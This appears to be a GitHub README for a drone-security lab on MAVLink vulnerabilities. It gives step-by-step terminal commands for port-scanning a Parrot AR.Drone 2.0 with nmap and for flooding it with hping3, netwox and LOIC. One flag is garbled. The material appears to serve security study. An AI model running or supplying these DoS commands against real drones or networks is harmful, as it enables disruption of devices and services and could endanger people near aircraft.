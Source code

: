 # MAVLink-security34
This reposity display information related to MAVLink related vulnerabilities.
Wireshark - The network monitor used to check if the attack is being done. Please, execute the set of commands below on the Linux terminal: 

- Run “sudo apt-get install wireshark” 
- Run using "sudo wireshark" otherwise it will not be able to access the network card 
- Choose wlan1 and press start and you will be able to see the network packet flow

Nmap - Nmap scans the open ports on the Internet Protocol (IP) address. Please, execute the set of commands below on the Linux terminal:

- Run "sudo apt-get install nmap"
- Run "nmap IP address"
- Where "192.168.1.1" is the IP of the AR.Drone 2.0

Hping3 - Hping3 is a DoS attack tool. Please, execute the set of commands below on the Linux terminal:

- Run "sudo apt-get update"
- Run "sudo apt-get install hping3"
- Run "sudo hping3 -fast-flolo IP address"
- Where "192.168.1.1" is the IP of the AR.Drone 2.0

Netwox - Netwox is a DoS attack tool. Please, execute the set of commands below on the Linux terminal:

- Run "sudo apt-get install netwox"
- Run "netwox 76 -dst-ip IP address -dst-port 21"
- Where "192.168.1.1" is the IP of the AR.Drone 2.0
- Where "21" is the destination port

LOIC - LOIC is an interface tool that facilitates a DoS or DDoS attack. Please, following the instructions below: 

- Run "sudo apt-get install monodevelop" on Linux terminal
- Clone on Linux terminal https://github.com/NewEraCracker/LOIC/releases
- Download the binary file and the executable, and add in the folders
- To execute, enter in the folder of the LOIC tool by the Linux terminal and use the command "mono LOIC.exe"
- Put the IP of the AR.Drone 2.0 in the IP address field and press lock on
- Choose the destination port in the port field
- Choose the type of attack (TCP)
- Choose the speed and repetition settings
- Press start "IMMA CHARGIN WITH LEISURE" 
